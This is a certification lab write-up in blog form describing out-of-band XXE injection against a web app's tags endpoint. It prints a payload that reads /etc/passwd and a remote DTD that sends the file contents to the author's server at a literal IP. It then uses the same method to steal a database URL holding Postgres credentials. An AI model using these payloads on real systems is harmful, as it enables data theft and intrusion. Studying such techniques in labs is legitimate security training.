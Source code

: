 ```yaml
---
title: Challenge 12:When things aren't working, go out of band
date: 2024-05-15 05:04:00 +0800
categories: [Write-Up, CWAE]
tags: [Cert, Write-Up]     # TAG names should always be lowercase
description: This is a detailed writeup created for challenges associated with the Certified Web AppSecurity Expert (CWAE) certification. 
---
```


# Challenge/Task

1. XXE INJECTION

**Proof-of-Concept (POC):**

There is a field “tags” where the system can query the available tags that has been created before on the website

![POC-otb](/img/cwae/wta1.png){: w="400" h="400" }{: .normal }

This is how the server response when we are calling the /tags endpoint. It will listed all tags that are available. 

![POC-otb](/img/cwae/wta2.png){: w="400" h="400" }{: .normal }

With the same technique XXE before, I try to change the content type of Json to XML format and the server seems accept the format too. You can see how the <tag> there. So maybe we can try XXE attack too ?

![POC-otb](/img/cwae/wta3.png){: w="400" h="400" }{: .normal }

However, when I send the same payload as before for XXE, the server did not respond anything. So, we cannot prove if this is vulnerable or not. We need to use Out of Band Technique.

![POC-otb](/img/cwae/wta4.png){: w="400" h="400" }{: .normal }

Out-of-band XXE (XML External Entity) injection is a technique used to exploit XML processors that support external entities, allowing an attacker to extract data from a server without receiving the actual response in-band with the HTTP response.
I will send malicious XML data to the server, typically containing references to an external entity defined in a Document Type Definition (DTD) file. This DTD file is hosted on our VPS server When the server processes the XML input, it resolves the external entity reference, causing the server to make a request to my controlled server to retrieve the entity content.

Payload sends to server
```jsx
<!DOCTYPE data [<!ENTITY % init SYSTEM "file:///etc/passwd"> 
  <!ENTITY % dtd SYSTEM "http://143.198.205.200:9003/d.dtd"> %dtd;]> 
<data>&send;</data>
```

dtd File created in remote server
```jsx
<!ENTITY % all "<!ENTITY send SYSTEM 'http://143.198.205.200:8090/?collect=%init;'> "> %all;
```
![POC-otb](/img/cwae/wta5.png){: w="400" h="400" }{: .normal }

I start to send the payload to the server. We can see the left side showing us the d.dtd is downloaded by the server. However, the /etc/passwd is not showing inside our listeners. 

![POC-otb](/img/cwae/wta6.png){: w="400" h="400" }{: .normal }

We must step back and see what the problem is here. The dtd file is already correct but somehow no result. Something error at the payload send to the server I guess. Previous challenges, we already performed port scanning to the target. We saw a port that is unknown. Further checking, it is a Postgres DB. So, we must change our payload.

![POC-otb](/img/cwae/wta7.png){: w="400" h="400" }{: .normal }


In PostgreSQL, /tmp/env/DATABASE_URL is likely a reference to a temporary file path where an environment variable called DATABASE_URL might be stored. So, we change the /etc/passwd to /tmp/env/DATABASE_URL and send again the request. You can see, our listener starting to collect the response from server. If you noticed, the line there refer to Postgres username and password. We can try it.. 

![POC-otb](/img/cwae/wta8.png){: w="400" h="400" }{: .normal }

We can now successfully login to the Postgres using the username and password.

![POC-otb](/img/cwae/wta9.png){: w="400" h="400" }{: .normal }
